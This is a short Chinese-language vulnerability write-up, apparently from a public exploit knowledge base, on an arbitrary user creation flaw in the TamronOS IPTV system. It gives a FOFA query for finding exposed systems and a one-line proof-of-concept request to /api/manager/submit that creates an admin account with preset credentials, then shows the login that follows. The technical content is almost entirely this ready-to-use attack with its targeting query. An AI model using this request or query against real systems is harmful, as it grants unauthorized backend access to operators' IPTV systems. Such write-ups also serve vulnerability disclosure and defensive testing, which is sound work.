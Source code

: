 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210615145308242-20220313155156716.png)



漏洞POC为

```plain
/api/manager/submit?group=1&username=test&password=123456
```

![img](../../../.vuepress/public/img/image-20210615145547635.png)

```plain
user: test
pass: 123456
```

![img](../../../.vuepress/public/img/image-20210615145605871.png)
